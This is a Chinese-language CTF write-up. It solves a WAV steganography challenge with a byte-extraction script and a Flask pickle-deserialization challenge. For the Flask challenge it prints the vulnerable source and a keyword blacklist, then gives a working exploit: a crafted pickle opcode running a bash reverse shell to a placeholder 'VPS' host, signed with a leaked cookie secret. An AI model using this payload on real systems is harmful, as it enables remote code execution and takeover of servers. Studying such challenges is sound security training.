

Hiden
对原有文本进行rot47和rot13解密得到wav的加密脚本
import wave
with open('flag.txt', 'rb') as f:
txt_data = f.read()
file_len = len(txt_data)
txt_data = file_len.to_bytes(3, byteorder = 'little') + txt_data
with wave.open("test.wav", "rb") as f:
attrib = f.getparams()
wav_data = bytearray( f.readframes(-1) )
for index in range(len(txt_data)):
wav_data[index * 4] = txt_data[index]
with wave.open("hiden.wav", "wb") as f:
f.setparams(attrib)
f.writeframes(wav_data)对脚本进行逆向即可得到flag
import wave
with wave.open("hiden.wav", "rb") as f:
attrib = f.getparams()
wav_data = bytearray(f.readframes(-1))
hidden_data = bytearray()
for index in range(0, len(wav_data), 4):
hidden_data.append(wav_data[index])
file_len = int.from_bytes(hidden_data[:3], byteorder='little')
extracted_data = hidden_data[3:file_len + 3]
print(extracted_data.decode('utf-8'))
Lyrics For You(pickle反序列化)
通过文件读取读取源码
# app.py
import os
import random
# from config.secret_key import secret_code
from flask import Flask, make_response, request, render_template
from cookie import set_cookie, cookie_check, get_cookie
import pickle
app = Flask(__name__)
app.secret_key = random.randbytes(16)
class UserData:
def __init__(self, username):
self.username = username
def Waf(data):
blacklist = [b'R', b'secret', b'eval', b'file', b'compile', b'open', b'os.popen']
valid = False
for word in blacklist:
if word.lower() in data.lower():
valid = True
break
return valid
@app.route("/", methods=['GET'])
def index():
return render_template('index.html')
@app.route("/lyrics", methods=['GET'])
def lyrics():
resp = make_response()
resp.headers["Content-Type"] = 'text/plain; charset=UTF-8'
query = request.args.get("lyrics")
path = os.path.join(os.getcwd() + "/lyrics", query)
try:
with open(path) as f:
res = f.read()
except Exception as e:
return "No lyrics found"
return res
@app.route("/login", methods=['POST', 'GET'])
def login():
if request.method == 'POST':
username = request.form["username"]
user = UserData(username)
res = {"username": user.username}
return set_cookie("user", res, secret=secret_code)
return render_template('login.html')
@app.route("/board", methods=['GET'])
def board():
invalid = cookie_check("user", secret=secret_code)
if invalid:
return "Nope, invalid code get out!"
data = get_cookie("user", secret=secret_code)
if isinstance(data, bytes):
a = pickle.loads(data)
data = str(data, encoding="utf-8")
if "username" not in data:
return render_template('user.html', name="guest")
if data["username"] == "admin":
return render_template('admin.html', name=data["username"])
if data["username"] != "admin":
return render_template('user.html', name=data["username"])
if __name__ == "__main__":
os.chdir(os.path.dirname(__file__))
app.run(host="0.0.0.0", port=8080)分析cookie.py逻辑,构造exp如下，直接反弹shell
import base64
import hashlib
import hmac
import pickle
from flask import make_response, request
unicode = str
basestring = str
# Quoted from python bottle template, thanks :D
def cookie_encode(data, key):
msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
return tob('!') + sig + tob('?') + msg
def cookie_decode(data, key):
data = tob(data)
if cookie_is_encoded(data):
sig, msg = data.split(tob('?'), 1)
if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
return pickle.loads(base64.b64decode(msg))
return None
def waf(data):
blacklist = [b'R', b'secret', b'eval', b'file', b'compile', b'open', b'os.popen']
valid = False
for word in blacklist:
if word in data:
valid = True
# print(word)
break
return valid
def cookie_check(key, secret=None):
a = request.cookies.get(key)
data = tob(request.cookies.get(key))
if data:
if cookie_is_encoded(data):
sig, msg = data.split(tob('?'), 1)
if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())):
res = base64.b64decode(msg)
if waf(res):
return True
else:
return False
return True
else:
return False
def tob(s, enc='utf8'):
return s.encode(enc) if isinstance(s, unicode) else bytes(s)
def get_cookie(key, default=None, secret=None):
value = request.cookies.get(key)
if secret and value:
dec = cookie_decode(value, secret)
return dec[1] if dec and dec[0] == key else default
return value or default
def cookie_is_encoded(data):
return bool(data.startswith(tob('!')) and tob('?') in data)
def _lscmp(a, b):
return not sum(0 if x == y else 1 for x, y in zip(a, b)) and len(a) == len(b)
def set_cookie(name, value, secret=None, **options):
if secret:
value = touni(cookie_encode((name, value), secret))
resp = make_response("success")
resp.set_cookie("user", value, max_age=3600)
return resp
elif not isinstance(value, basestring):
raise TypeError('Secret key missing for non-string Cookie.')
if len(value) > 4096:
raise ValueError('Cookie value to long.')
def touni(s, enc='utf8', err='strict'):
return s.decode(enc, err) if isinstance(s, bytes) else unicode(s)
opcode=b'''(cos
system
S'bash -c "bash -i >& /dev/tcp/VPS/5678 0>&1"'
o.'''
secret="EnjoyThePlayTime123456"
exp = touni(cookie_encode(('user', opcode), secret))
print(exp)